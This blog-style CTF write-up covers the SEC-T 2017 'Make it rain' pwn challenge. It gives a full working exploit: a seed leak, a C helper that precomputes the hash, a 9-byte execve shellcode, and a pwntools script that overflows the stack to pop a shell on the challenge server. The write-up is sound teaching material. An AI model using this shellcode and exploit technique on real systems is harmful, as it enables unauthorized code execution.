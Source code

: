 ```yaml
---
layout: post
title:  "SEC-T CTF 2017 - Make it rain"
date:   2017-09-15 22:00
categories: CTF
tags: [SECTCTF2017]
categories: [pwn]
author: jbz
---
```

> Joey: Like four hours I'm just messing around in there. Finally I figure out, that it's a bank. Right, okay wait, okay, so it's a bank. So, this morning, I look in the paper, some cash machine in like Bumsville Idaho, spits out seven hundred dollars into the middle of the street.

This was a 250 points pwn challenge, I had a fun time solving it. In general this CTF was very fun and had very unique challenges. Plus the "Hackers" theme was awesome :)

Let's start with the usual initial recon on the binary, which is available [here](https://github.com/jbzteam/CTF/raw/master/SECTCTF2017/makeitrain/bank_15e31e6a4b5f7f89b03af4ddb8132879):

```bash
 $ file bank_15e31e6a4b5f7f89b03af4ddb8132879 
bank_15e31e6a4b5f7f89b03af4ddb8132879: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b60e073fa58bf97db29158b394480023f21e0aba, not stripped
 $ checksec bank_15e31e6a4b5f7f89b03af4ddb8132879 
[*] './bank_15e31e6a4b5f7f89b03af4ddb8132879'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

Almost all mitigations on... fun stuff. Let's see how it works with IDA. Keep in mind that I tend to clean-up/fix stuff so your output might be different.

`main()` is pretty easy, it only calls four functions:
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  init();
  login();
  create_secret();
  menu();
}
```
Let's do a quick overview of all the functions. We'll check their details as needed throughout the write-up:
- `init()`: after the usual couple of `setvbuf()` calls, it  reads 4 bytes from `/dev/urandom`, writes them in the variable `rand_data` in `.bss`, and uses that value as argument for `srand()`.
- `login()` reads a 9 bytes string in the `.bss` variable `username`, which is 8 bytes long and located right before `rand_data`. Duh!
- `create_secret()` allocates 200000 bytes of memory at `0x40000`, copies 9 bytes from `username`at the beginning of that memory segment, and fills the rest with random numbers. The memory at `0x40000` is `rx`, and becomes writeable only when things are written into it.
- `menu()` the meat of the program.

After this premise, let's see what the program actually does. This is the initial banner + menu:
```
BANK OF AMERICA (BOA)
Welcome <username>
===============
1) Change user
2) Make it rain!
3) Exit
```

`<username>` is the string we supplied in `login()`. It's easy to guess that if we supply a 8 byte string, when the variable is printed it will also print the value of `rand_data` as `username` is not null-terminated and, as said, is right before `rand_data` in `.bss`. Great, we can leak the `srand()` seed... we'll need it later!

Change user is pretty self-explanatory, we'll need this later as well.

Let's see what that "Make it rain" does:
```c
ssize_t __fastcall make_it_rain(__int64 a1, __int64 a2)
{
  verify_secure_hash();
  return withdraw();
}
```

`verify_secure_hash()` computes the SHA256 hash of the mapped memory area at `0x40000`, and compares it with an user-supplied hash. If they match, `withdraw()` is executed, which tries to fill a 16-byte array with 150 bytes. Here's our vuln! To access that code though, we need to pass the hash check. Fortunately we have all we need to do that, as we can leak the value of `rand_data`!

So let's plan our attack. We have to:
- leak `rand_data`
- pre-compute all the 200000 bytes at `0x40000` and SHA256-hash them
- pass hash validation part
- exploit the stack overflow vuln
- PROFIT!

As said, to leak `rand_data` we just have to provide a 8-byte string as the `username`. Easy peasy.

To pre-compute all the random numbers, I created a small C program that does it for me. I chose C to make sure that `rand()` behaved in the same way as the target program. My code takes the `rand_data` and `username` as input and spits all the 200000 bytes out, which can then be hashed. This is the source:
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char **argv) {
	if (argc < 3) {
		printf("fail\n");
		return 1;
	}
	char *username = argv[1];
	int seed = atoi(argv[2]);
	char *username2 = "\x53\x56\x5f\x5e\xb0\x3b\x99\x0f\x05";
	char buffer[200000];
	char *buffer_ptr;
	char *c;
	int i;
	srand(seed);
	strncpy(buffer, username, 8);
	buffer[8] = (char)seed;
	buffer_ptr = &buffer[9];
	for ( i = 0; i <= 199990; ++i )
	{
		c = &buffer_ptr[i];
		*c = rand();
	}
	memcpy(buffer, username2, 9);
	write(1, buffer, sizeof(buffer));
	return 0;
}
```

I'll tell you what `username2` is in a moment ;)

With the stack overflow vuln we can control `RIP`. But we have no libc leaks, the binary is PIE and there's NX... what to do? Well, remember that "Change username"? `username` fills the first 8 (actually 9) bytes of the memory at `0x40000`, so we can control an executable area of memory at a static address. How about putting a shellcode right there? You say 9 bytes are too small for a shellcode? Naah :) When the `ret` executes in `withdraw()`, the `rsi` register points to the string we just passed, and we can use it to store our "/bin/sh". So we only need to set the registers correctly to have a working shellcode:
```asm
push rbx # which is 0
push rsi # wich points to "/bin/sh"
pop rdi
pop rsi
mov al, 0x3b
cdq
syscall
```

Encoded, the shellcode is `53565f5eb03b990f05`: exactly 9 bytes. Looks familiar? Yes, it's the `username2` variable in the C code above. Since that values is at the beginning of the memory segment at `0x40000`, we need it to calculate the correct SHA256 hash.

Once everything is set, we overwrite our `RIP` with `0x40000` and the shellcode executes.

This is the final python code:
```python
from pwn import *
import subprocess

#p = process("./bank_15e31e6a4b5f7f89b03af4ddb8132879")
p = remote("pwn.sect.ctf.rocks", 31337)

username = "aaaaaaaa"
username2 = "53565f5eb03b990f05".decode("hex") # asm -f hex -c amd64 "push rbx; push rsi; pop rdi; pop rsi; mov al, 0x3b; cdq; syscall"
mapped = 0x00040000

# Leaking rand_data
# I could've used the shellcode here directly but I did this challenges in two phases and I didn't want to re-write the whole thing :)
p.sendafter("Username:", username)
leak = p.recvuntil("===").split(username)[1].split("\x0a")[0]
leak_int = u32(leak)
log.info("leak {} {}".format(leak.encode("hex"), leak_int))

# Changing username to our shellcode
p.sendafter("#>", "1")
p.sendafter(":", username2)
# yes I'm lazy... :)
sha256 = subprocess.check_output("./generate_random '%s' '%s' | sha256sum | cut -f1 -d' '" % (username, leak_int), shell=True)
log.info("sha256: {}".format(sha256))

# Passing the hash and exploiting the stack overflow
p.sendafter("#>", "2")
p.sendafter(":", sha256.strip())
p.sendafter("?:", "/bin//sh\x00" + "x"*15 + p64(mapped))

# profit
p.sendline("uname -a && id")
p.interactive()
```

And the flag is `SECT{h0p3_y0u_d1dnt_d0_th1s_fr0m_yoUr_HOUSE}`.

Happy hacking!
